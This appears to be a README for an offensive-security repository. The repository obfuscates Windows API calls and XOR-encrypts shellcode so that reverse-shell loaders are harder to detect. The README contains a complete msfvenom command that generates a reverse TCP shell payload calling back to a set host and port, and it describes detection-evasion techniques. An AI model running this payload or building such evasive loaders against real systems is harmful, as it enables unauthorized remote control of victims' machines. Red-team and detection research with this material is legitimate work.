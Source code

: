 # Function Call Obfuscation

## Details
This was inspired by `https://jamespatricksec.medium.com/function-call-obfuscation-51f6bb171767` and `https://medium.com/@irfanbhat3/function-call-obfuscation-1bcd58e62b8e` where it is discussed and shown how to *obfuscate function calls* for **Windows binaries**.

The `Original.cpp` contains the original function calls before any obfuscation.

The `SC_Rev.cpp` obfuscates `VirtualProtect`, `VirtualAlloc`, `CreateThread` `WaitForSingleObject`. Both use the **standard msfvenom** shellcode with `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.3.4 LPORT=443 -f c -v shellcode_payload` for testing purposes.

The `XOR_Rev.cpp` uses a **basic xor encryption** for the shellcode utilizing the `sc_xor.cpp` file.

The `Rev.cpp` is originally found in `https://github.com/tihanyin/Simple-Reverse-Shell/blob/main/Reverse_shell_2021_12.cpp` with some minor modifications and obfuscating the `CreateProcess` function call.

All of them use the `func_xor.cpp` script for **xor encryption** of the function name.

## Compiling
1. For both `func_xor.cpp` and `sc_xor.cpp` use `g++ func_xor.cpp -o func_xor` if compiling on **Linux**

2. For the others, you **Console App C++** in *Visutal Studio*. Use the `Release x64` option when building the binary.
